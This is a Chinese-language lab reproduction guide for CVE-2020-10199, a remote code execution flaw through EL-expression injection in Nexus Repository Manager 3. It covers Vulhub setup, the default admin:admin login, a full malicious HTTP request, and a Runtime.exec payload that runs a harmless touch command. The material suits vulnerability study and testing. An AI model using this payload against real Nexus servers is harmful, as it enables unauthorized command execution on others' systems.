




Nexus Repository Manager 3 group 远程命令执行漏洞 CVE-2020-10199¶
漏洞描述¶
Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。
参考链接：
- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199
漏洞影响¶
Nexus < 3.21.1
网络测绘¶
app="Nexus-Repository-Manager"
环境搭建¶
Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：
docker-compose up -d
等待一段时间环境才能成功启动，访问http://your-ip:8081即可看到Web页面。
该漏洞需要至少普通用户身份，所以我们需要使用账号密码admin:admin登录后台。

漏洞复现¶
登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203
{
"name": "internal",
"online": true,
"storage": {
"blobStoreName": "default",
"strictContentTypeValidation": true
},
"group": {
"memberNames": ["$\\A{233*233*233}"]
}
}

发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：
NX-ANTI-CSRF-TOKEN: <your-csrf-token>
参考https://github.com/jas502n/CVE-2020-10199，使用表达式$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}即可成功执行任意命令。

命令touch /tmp/awesome_poc执行成功：
